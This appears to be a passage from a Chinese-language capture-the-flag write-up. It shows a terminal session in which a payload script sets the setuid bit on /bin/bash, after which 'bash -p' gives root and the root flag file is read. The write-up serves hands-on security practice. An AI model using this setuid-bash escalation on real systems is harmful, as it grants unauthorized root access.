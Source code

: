 ![image-20240316030546903](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249821.png)

登录上去是`-bash-5.2`字样的，麻了，网上倒有解决办法，尝试一下：

```bash
cp /etc/skel/.bashrc /home/void/    
cp /etc/skel/.profile  /home/void/
cp /etc/skel/.bash_logout /home/void/
```

没成功。。。但是可以执行了！几种信息：

```apl
ls: cannot access '/tmp/read*': No such file or directory
test
chmod +s /bin/bash
./payload.sh: line 6: $filename: ambiguous redirect
```

瞎操作，最终获取到了flag，群主牛批！

```text
-bash-5.2$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
-bash-5.2$ id
uid=1001(void) gid=1001(void) groups=1001(void)
-bash-5.2$ bash
bash-5.2$ whoami;id
void
uid=1001(void) gid=1001(void) groups=1001(void)
bash-5.2$ cd /root
bash: cd: /root: Permission denied
bash-5.2$ cat /root/root.txt
cat: /root/root.txt: Permission denied
bash-5.2$ bash -p
bash-5.2# whoami;id
root
uid=1001(void) gid=1001(void) euid=0(root) egid=0(root) groups=0(root),1001(void)
bash-5.2# cd /root
bash-5.2# ls -la
total 32
drwx------  4 root root 4096 Jan 31 11:37 .
drwxr-xr-x 19 root root 4096 Jan 30 11:00 ..
lrwxrwxrwx  1 root root    9 Jan 30 12:33 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Jan 30 11:31 .lesshst
drwxr-xr-x  3 root root 4096 Jan 30 09:51 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-------  1 root root    0 Jan 30 09:57 .python_history
-rwx------  1 root root   32 Jan 31 11:37 root.txt
drwx------  2 root root 4096 Jan 30 15:20 .ssh
bash-5.2# cat root.txt
root{k7Ei4kA88gtL957yYbWdRfVJg}
```

